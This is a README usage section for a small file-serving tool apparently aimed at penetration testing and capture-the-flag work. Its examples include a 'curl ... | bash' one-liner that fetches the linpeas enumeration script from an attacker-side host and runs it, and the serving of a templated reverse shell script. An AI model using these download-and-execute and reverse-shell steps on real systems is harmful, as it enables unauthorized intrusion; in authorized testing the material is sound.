 ## Usage

```
Usage: serve [OPTIONS] [ASSET] [PORT]

Arguments:
  [ASSET]  File or folder to serve
  [PORT]   Specify alternate port

Options:
  -b, --bind <BIND>                Specify alternate bind address
  -s, --status-code <STATUS_CODE>  Specify status code
      --ssl                        Use ssl
  -v, --verbose                    Verbose output
  -H, --header <HEADER>            Set headers
  -r <REPLACE_MAP>                 Match and replace functions
  -R, --redirect <REDIRECT>        Set permanent redirect to specified location
  -h, --help                       Print help information
  -V, --version                    Print version information
```

### 1. Serve static content

- If no arguments are specified, it serves files from the current directory.

- If a file is specified as first argument, the option for copying the download command is provided based on the file
  extension:

```bash
$ serve /path/to/linpeas.sh 
Serving /path/to/linpeas.sh at http://10.10.14.6:9000
Copied 'curl -k -s http://10.10.14.6:9000 | bash' to clipboard
```

- The above command can be shortened as:

```bash
$ serve lps
```

given the following entry in [config.yaml](config.yaml):

```yaml
alias:
  lps: "/path/to/linpeas.sh"
```

### 2. Define match replace rules

```bash
$ serve rev -r REPLACE_IP:$ip -r REPLACE_PORT:9000
```

> Reverse shell, template: [rev_shell.sh](examples/rev_shell.sh)

### 3. Use `-v` for more information

```bash
$ serve -v
Serving . at https://10.10.14.6:9000
10.10.14.6 - - [05/Jan/2023 17:21:18] "GET /" 404

<!---------- Request Start ----------

GET /
Host: 10.10.14.6:9000
User-Agent: HTTPie/1.0.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive

----------  Request End  ----------!>
```